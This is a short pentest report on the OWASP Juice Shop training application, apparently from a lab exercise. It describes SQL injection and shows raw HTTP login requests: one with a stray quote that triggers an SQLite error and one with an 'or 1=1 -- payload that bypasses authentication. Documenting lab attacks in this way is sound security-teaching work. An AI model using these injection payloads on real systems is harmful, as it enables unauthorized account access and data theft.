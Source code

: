 # JUICE-SHOP PENTEST REPORT

This document provides a report of the vulnerabilities that we have found on Juice Shop WebApplication.


## SQL Injection

### Description

A SQL injection attack consists of the insertion or "injection" of a SQL query via the input data from the client to the application. A successful SQL injection exploit can read sensitive data from the database, modify database data (Insert/Update/Delete), execute administration operations on the database, recover the content of a given file present on the DBMS file system, and in some cases issue commands to the operating system. SQL injection attacks are a type of injection attack, in which SQL commands are injected into data-plane input in order to affect the execution of predefined SQL commands. The login page is vulnerable to SQL injection attacks using that an attacker can log in to the application without knowing the credentials.

### Steps

- Checked for a login field to input user commands.
Tried to check for a security misconfiguration by adding a ' Symbol.

```
POST /rest/user/login HTTP/1.1
...

{
"email":"'",
"password":"1"
}
```

Responded with an SQLite error and also the SQL tables and password hash.

- Checked for a simple SQL injection by trying to bypass the authentication process with 

```
POST /rest/user/login HTTP/1.1
Accept: application/json, text/plain, */*

{
 "email":"'or 1=1 --",
 "password":"1"
}
```

### PoC

![SQLINJ](img/SQL_Juice02)

